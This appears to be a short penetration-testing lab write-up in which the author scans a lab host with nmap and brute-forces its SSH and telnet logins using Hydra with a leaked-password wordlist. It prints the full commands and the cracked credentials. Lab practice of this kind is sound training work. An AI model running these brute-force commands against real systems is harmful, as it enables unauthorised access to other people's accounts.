 # Bruteforce Lab

My IP: `192.168.99.100`
Target IP: `192.168.99.22`

1. Scan target

nmap results:
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 6.0p1 Debian 4+deb7u2 (protocol 2.0)
23/tcp open  telnet  Linux telnetd
```

Let's try Hydra to brute-force both of these protocols.


SSH: `hydra ssh://192.168.99.22 -L /usr/share/ncrack/minimal.usr -P /usr/share/seclists/Passwords/Leaked-Databases/rockyou-10.txt -f -o ssh_pass.txt`

telnet: `hydra telnet://192.168.99.22 -L minimal.usr -P /usr/share/seclists/Passwords/Leaked-Databases/rockyou-10.txt -f -o telnet_pass.txt `
```
[22][ssh] host: 192.168.99.22   login: sysadmin   password: secret
[23][telnet] host: 192.168.99.22   login: sysadmin   password: secret
```
